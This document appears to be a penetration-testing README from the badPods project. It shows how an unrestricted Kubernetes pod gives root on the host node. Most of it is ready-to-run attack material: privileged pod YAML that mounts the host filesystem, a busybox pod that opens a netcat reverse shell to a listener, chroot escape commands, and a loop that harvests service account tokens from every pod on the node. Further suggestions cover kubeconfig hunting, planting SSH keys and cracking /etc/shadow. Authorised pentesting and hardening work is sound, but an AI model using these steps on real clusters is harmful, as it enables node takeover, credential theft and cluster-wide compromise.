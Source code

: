 # You can create a pod with all the things
If there are no pod admission controllers applied,or a really lax policy, you can create a pod that has complete access to the host node. You essentially have a root shell on the host, which provides multiple potential paths to cluster-admin. 

The pod you create mounts the host's filesystem to the pod. You then exec into your pod and chroot to the directory where you mounted the host's filesystem. You now have root on the node running your pod. One promising privesc path is available if you can schedule your pod to run on the control-plane node using the nodeName selector (not possible in most cloud hosted k8s environments). Even if you can only schedule your pod on the worker node, you can access the node's kubelet credentials or you can create mirror/static pods in any namespace. You can also access any secret mounted within any pod on the node you are on. **In a production cluster, even on a worker node, there is usually at least one pod that has a `token` mounted that is bound to a `service account` that is bound to a `clusterrolebinding`, that gives you access to do things like create pods or view secrets in all namespaces**.  

# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-everything-allowed
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed
    image: ubuntu
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name  volumes:
  - name: noderoot
    hostPath:
      path: /
```
[pod-everything-allowed.yaml](pod-everything-allowed.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-everything-allowed.yaml 
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/everything-allowed/pod-everything-allowed.yaml 
```

#### Exec into pod 
```bash
kubectl exec -it pod-everything-allowed -- chroot /host
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-everything-allowed-revshell
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-revshell
    image: busybox
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name  volumes:
  - name: noderoot
    hostPath:
      path: /
```
[pod-everything-allowed-revshell.yaml](pod-everything-allowed-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/everything-allowed/pod-everything-allowed-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
~ chroot /host
```

# Post exploitation

You now have root access to the node. Here are some next steps: 

#### Look for kubeconfig's in the host filesystem 
If you are lucky, you will find a cluster-admin config with full access to everything (not so lucky here on this GKE node)

```bash
find / -name kubeconfig
```
```
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/merged/var/lib/kube-proxy/kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/var/lib/node-problem-detector/kubeconfig
/var/lib/kubelet/kubeconfig
/var/lib/kube-proxy/kubeconfig
/home/kubernetes/containerized_mounter/rootfs/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/mnt/stateful_partition/var/lib/node-problem-detector/kubeconfig
/mnt/stateful_partition/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/kube-proxy/kubeconfig
```

#### Grab all tokens from all pods on the system
Use something like access-matrix to see if any of them give you more permission than you currently have. Look for tokens that have permissions to get secrets in kube-system

```bash
# This lists the location of every service account used by every pod on the node you are on, and tells you the namespace. 
tokens=`find /var/lib/kubelet/pods/ -name token -type l`; for token in $tokens; do parent_dir="$(dirname "$token")"; namespace=`cat $parent_dir/namespace`; echo $namespace "|" $token ; done | sort

default | /var/lib/kubelet/pods/ID/volumes/kubernetes.io~secret/default-token-t25ss/token
default | /var/lib/kubelet/pods/ID/volumes/kubernetes.io~secret/default-token-t25ss/token
development | /var/lib/kubelet/pods/ID/volumes/kubernetes.io~secret/default-token-qqgjc/token
development | /var/lib/kubelet/pods/ID/volumes/kubernetes.io~secret/default-token-qqgjc/token
kube-system | /var/lib/kubelet/pods/ID/volumes/kubernetes.io~secret/kube-proxy-token-x6j9x/token
kube-system | /var/lib/kubelet/pods/ID/volumes/kubernetes.io~secret/calico-node-token-d426t/token


# For each interesting token, copy token value to somewhere you have kubectl set and see what permissions it has assigned to it
DTOKEN=`cat /var/lib/kubelet/pods/ID/volumes/kubernetes.io~secret/default-token-qqgjc/token`
kubectl auth can-i --list --token=$DTOKEN -n development # Shows namespace specific permissions
kubectl auth can-i --list --token=$DTOKEN #Shows cluster wide permissions

# Does the token allow you to view secrets in that namespace? How about other namespaces?
# Does it allow you to create clusterrolebindings? Can you bind your user to cluster-admin?
```

#### Some other ideas:
* Add your public key authorized_keys on the node and ssh to it
* Crack passwords in /etc/shadow, see if you can use them to access control-plane nodes
* Look at the volumes that each of the pods have mounted. You might find some pretty sensitive stuff in there. 

#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test. 

   
# Reference(s): 
* https://raesene.github.io/blog/2019/04/01/The-most-pointless-kubernetes-command-ever/
  
